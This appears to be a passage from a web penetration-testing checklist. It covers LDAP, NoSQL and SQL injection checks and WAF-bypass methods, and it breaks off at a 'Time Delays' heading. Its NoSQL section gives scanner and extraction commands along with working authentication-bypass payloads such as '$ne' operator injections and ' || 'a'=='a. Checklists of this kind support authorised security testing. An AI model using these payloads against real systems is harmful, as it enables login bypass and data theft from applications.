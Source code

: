     - [ ]  LDAP injection to bypass authentication
    - [ ]  LDAP injection to exfiltrate data
- [ ]  Fuzz all request parameters (if got user, add headers to fuzzer)
- [ ]  Identify all reflected data
- SQL Injection Testing
    - NoSQL injection
        
        ```jsx
        # Tools
        # https://github.com/codingo/NoSQLMap
        python NoSQLMap.py
        # https://github.com/torque59/Nosql-Exploitation-Framework
        python nosqlframework.py -h
        # https://github.com/Charlie-belmer/nosqli
        nosqli scan -t http://localhost:4000/user/lookup?username=test
        # https://github.com/FSecureLABS/N1QLMap
        ./n1qlMap.py http://localhost:3000 --request example_request_1.txt --keyword beer-sample --extract travel-sample
        
        # Payload: 
        ' || 'a'=='a
        
        mongodbserver:port/status?text=1
        
        # in URL
        username[$ne]=toto&password[$ne]=toto
        
        ##in JSON
        {"username": {"$ne": null}, "password": {"$ne": null}}
        {"username": {"$gt":""}, "password": {"$gt":""}}
        
        - Trigger MongoDB syntax error -> ' " \ ; { }
        - Insert logic -> ' || '1' == '1' ; //
        - Comment out -> //
        - Operators -> $where $gt $lt $ne $regex
        - Mongo commands -> db.getCollectionNames()
        ```
        
    - [ ]  [SQL](https://pentestbook.six2dez.com/enumeration/web/sqli) injection with ' and '--+-
    - Entry point detection
        - [ ]  Simple characters
        - [ ]  Multiple encoding
        - [ ]  Merging characters
        - [ ]  Logic Testing
        - [ ]  Weird characters
    - [ ]  Run SQL injection scanner on all requests
    - [ ]  SQL injection via User-Agent Header
    - Bypassing WAF
        - [ ]  Using Null byte before SQL query
        - [ ]  Using SQL inline comment sequence
        - [ ]  URL encoding
        - [ ]  Changing Cases (uppercase/lowercase)
        - [ ]  Use SQLMAP tamper scripts
    - Time Delays
        